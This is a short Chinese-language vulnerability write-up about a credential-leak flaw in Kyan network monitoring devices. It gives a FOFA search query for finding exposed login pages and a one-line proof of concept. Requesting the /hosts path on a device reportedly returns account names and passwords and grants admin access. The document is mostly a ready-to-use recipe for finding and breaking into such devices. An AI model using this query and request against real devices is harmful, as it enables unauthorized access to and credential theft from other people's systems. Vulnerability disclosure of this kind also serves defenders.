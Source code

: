 # Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

```
Kyan
```

## FOFA

```
title="platform - Login"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140926162.png)

POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140927595.png)

成功获得账号密码



